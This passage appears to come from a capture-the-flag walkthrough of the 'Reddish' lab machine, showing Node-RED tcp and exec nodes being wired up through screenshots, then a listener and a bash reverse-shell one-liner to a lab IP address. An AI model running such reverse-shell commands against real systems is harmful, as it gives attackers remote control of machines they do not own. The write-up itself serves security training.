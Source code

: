 → Now lets add tcp out node :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%206.png)

→ Finally an exec node in b/w : 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%207.png)

→ Now lets start an listener on port 4444 and deploy :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%208.png)

⇒ Lets get an better shell :

**bash -c 'bash -i >& /dev/tcp/10.10.14.45/6666 0>&1'**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%209.png)
